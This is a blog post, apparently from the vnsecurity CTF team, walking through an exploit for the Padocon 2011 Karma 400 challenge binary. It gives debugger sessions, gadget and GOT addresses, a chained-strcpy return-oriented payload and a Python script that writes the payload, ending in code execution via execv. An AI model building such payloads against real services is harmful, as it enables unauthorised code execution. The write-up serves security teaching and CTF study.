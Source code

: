 ```yaml
---
title: 'Padocon 2011 CTF Karma 400 exploit: the data re-use way'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:89:"http://www.vnsecurity.net/2011/01/padocon-2011-ctf-karma-400-exploit-the-data-re-use-way/";s:7:"tinyurl";s:26:"http://tinyurl.com/7n94rq8";s:4:"isgd";s:19:"http://is.gd/UTugS9";}'
tweetbackscheck:
  - 1408358972
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
category:
  - 'CTF - CLGT Crew'
tags:
  - '2011'
  - CLGT
  - CTF
  - padocon
  - return-to-libc
  - ropeme
---
```

Karma 400 at Padocon 2011 Online CTF is a fun challenge. The binary was provided without source code, you can reach its decompiled source at <a href="http://disekt.tk/node/39" target="_blank">disekt&#8217;s team writeup</a>. In that writeup, the solution was bruteforcing address of IO stdin buffer with return to do_system() trick. Karma 400 is different than other karma attackme:

*   It runs as a network daemon (via xinetd): so you cannot abuse its arguments and environments
*   Input buffer is 200 bytes: you have room for payload (not only just overwrite saved EIP)
*   There is a 10 seconds sleep before main() returns: this makes bruteforcing less effective

In this post I will show how to exploit karma 400 with [data re-use method][1].

<pre class="brush: plain; title: ; notranslate" title="">$ gdb -q karma400_lolcosmostic
gdb$ pattern_create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
gdb$ r
input: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
 EAX: 0x00000000  EBX: 0x41346141  ECX: 0xBFFFF384  EDX: 0x00B84FF4  o d I t S z a p c
 ESI: 0x00000000  EDI: 0x61413561  EBP: 0x62413961  ESP: 0xBFFFF3DC  EIP: 0x08048793
 CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007B
[0x007B:0xBFFFF3DC]------------------------------------------------------[stack]
0xBFFFF42C : 64 37 41 64 38 41 64 39 - 41 65 30 41 65 31 41 65 d7Ad8Ad9Ae0Ae1Ae
0xBFFFF41C : 41 64 32 41 64 33 41 64 - 34 41 64 35 41 64 36 41 Ad2Ad3Ad4Ad5Ad6A
0xBFFFF40C : 36 41 63 37 41 63 38 41 - 63 39 41 64 30 41 64 31 6Ac7Ac8Ac9Ad0Ad1
0xBFFFF3FC : 63 31 41 63 32 41 63 33 - 41 63 34 41 63 35 41 63 c1Ac2Ac3Ac4Ac5Ac
0xBFFFF3EC : 41 62 36 41 62 37 41 62 - 38 41 62 39 41 63 30 41 Ab6Ab7Ab8Ab9Ac0A
0xBFFFF3DC : 30 41 62 31 41 62 32 41 - 62 33 41 62 34 41 62 35 0Ab1Ab2Ab3Ab4Ab5
--------------------------------------------------------------------------1
=&gt; 0x8048793:    ret
 0x8048794:    nop
 0x8048795:    nop
 0x8048796:    nop
--------------------------------------------------------------------------------
0x08048793 in ?? ()
gdb$ x/x $esp
0xbffff3dc:    0x31624130

gdb$ pattern_offset 200 0x31624130
Searching for 0Ab1 in buf size 200
32
</pre>

We have 200-32 = 168 bytes left for our payload. The goal is to execute a custom shell in /tmp, for this purpose I choose execv("/tmp/v", ptr\_to\_NULL).

**Step 1:** transfer the string "/tmp/v" to un-used data region using chained strcpy() calls

<pre class="brush: plain; title: ; notranslate" title="">gdb$ x/32wx 0x08049a50
0x8049a50:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049a60 &lt;stdin&gt;:    0x00b85440    0x00000000    0x00000000    0x00000000
0x8049a70:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049a80 &lt;stdout&gt;:    0x00b854e0    0x00000000    0x00000000    0x00000000
0x8049a90:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049aa0:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049ab0:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049ac0:    0x00000000    0x00000000    0x00000000    0x00000000

TARGET = 0x8049a90
NULLARGV = TARGET - 4

gdb$ info func strcpy@plt
All functions matching regular expression "strcpy@plt":

Non-debugging symbols:
0x080484f0  strcpy@plt

STRCPY = 0x080484f0

gdb$ x/4i 0x80485e3
 0x80485e3:    pop    ebx
 0x80485e4:    pop    ebp
 0x80485e5:    ret
 0x80485e6:    lea    esi,[esi+0x0]
gdb$

POP2RET = 0x80485e3

gdb$ findsubstr 0x08048000 0x08049000 "/tmp/v\x00"
Searching for '/tmp/vx00'
'/': 0x8048134
't': 0x80480f6
'm': 0x80482dc
'p': 0x8048313
'/': 0x8048134
'vx00': 0x80485e7

DATA1 = [0x8048134, 0x80480f6, 0x80482dc, 0x8048313, 0x8048134, 0x80485e7]
</pre>

The payload will look like:  
[ STRCPY, POP2RET, TARGET, DATA1[0],  STRCPY, POP2RET, TARGET+1, DATA1[1], ... ]

**Step-2:** overwrite GOT entry of puts() (or any function) with execv()  
This is a bit tricky, because libc address is ASCII ARMOR we cannot put execv() address directly on the payload. Fortunately, libc address is not randomized so we can directly overwrite GOT with execv() address using strcpy likes the data above.

<pre class="brush: plain; title: ; notranslate" title="">gdb$ p execv
$2 = {&lt;text variable, no debug info&gt;} 0xac4680 &lt;execv&gt;

EXECV = 0xac4680
gdb$ info functions puts@plt
All functions matching regular expression "puts@plt":

Non-debugging symbols:
0x08048540  puts@plt
gdb$ x/i 0x08048540
 0x8048540 &lt;puts@plt&gt;:    jmp    DWORD PTR ds:0x8049a48

PLTADDR = 0x08048540
GOTADDR = 0x8049a48

gdb$ findsubstr 0x08048000 0x08049000  0xac4680
Searching for 'x80Fxac'
'x80': 0x804803d
'F': 0x8048003
'xac': 0x80481b0

gdb$ findsubstr 0x08048000 0x08049000  0x00
Searching for 'x00'
'x00': 0x8048007

DATA2 = [0x804803d, 0x8048003, 0x80481b0, 0x8048007]
</pre>

The payload will look like:  
[ STRCPY, POP2RET, GOTADDR, DATA2[0], STRCPY, POP2RET, GOTADDR+1, DATA2[1], ... ]

Finally, we make call to execv() via puts@plt:  
[ PLTADDR, 0xdeadbeef, TARGET, NULLARGV ]

We have a small problem, our payload size is 176. Each strcpy() call takes 16 bytes payload and there is 10 calls for data transfer, we have to reduce at least 1 call. We can tweak our custom shell a bit to reduce payload length, instead of "/tmp/v" we use "/tmp/ld-linux.so.2" so the last string to copy is "/ld-linux.so.2".

<pre class="brush: plain; title: ; notranslate" title="">gdb$ findsubstr 0x08048000 0x0804a000  "/"
Searching for '/'
'/': 0x8048134
gdb$ x/s 0x8048134
0x8048134:     "/lib/ld-linux.so.2"
gdb$ x/s 0x8048138
0x8048138:     "/ld-linux.so.2"

DATA1 = [0x8048134, 0x80480f6, 0x80482dc, 0x8048313, 0x8048138]
</pre>

Wrap things up and test:

<pre class="brush: python; title: ; notranslate" title="">gdb$ shell python
Python 2.6.6 (r266:84292, Sep 15 2010, 15:52:39)
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
&gt;&gt;&gt; TARGET = 0x8049a90
&gt;&gt;&gt; NULLARGV = TARGET - 4
&gt;&gt;&gt; STRCPY = 0x080484f0
&gt;&gt;&gt; POP2RET = 0x80485e3
&gt;&gt;&gt; DATA1 = [0x8048134, 0x80480f6, 0x80482dc, 0x8048313, 0x8048138]
&gt;&gt;&gt; PAYLOAD = []
&gt;&gt;&gt; for i in range(len(DATA1)):
...     PAYLOAD += [STRCPY, POP2RET, TARGET+i, DATA1[i]]
...
&gt;&gt;&gt; for i in range(len(DATA2)):
...     PAYLOAD += [STRCPY, POP2RET, GOTADDR+i, DATA2[i]]
...
&gt;&gt;&gt; PAYLOAD += [PLTADDR, 0xdeadbeef, TARGET, NULLARGV]
&gt;&gt;&gt; len(PAYLOAD)
40
&gt;&gt;&gt; fd = open("payload", "wb")
&gt;&gt;&gt; import struct
&gt;&gt;&gt; fd.write("A"*32) # padding
&gt;&gt;&gt; for i in range(len(PAYLOAD)):
...     fd.write(struct.pack("&lt;I", PAYLOAD[i]))
...
&gt;&gt;&gt; fd.close()
&gt;&gt;&gt; ^D

gdb$ shell ln -s /usr/bin/id /tmp/ld-linux.so.2
gdb$ r &lt; payload
input: process 1866 is executing new program: /usr/bin/id

Program received signal SIGPIPE, Broken pipe.
</pre>

Pwned!

*Notes*:

*   This way can also be applied to exploit karma 500
*   Disekt's return to do_system() trick is really neat for local exploit

 [1]: http://force.vnsecurity.net/download/longld/BHUS10_Paper_Payload_already_inside_data_reuse_for_ROP_exploits.pdf
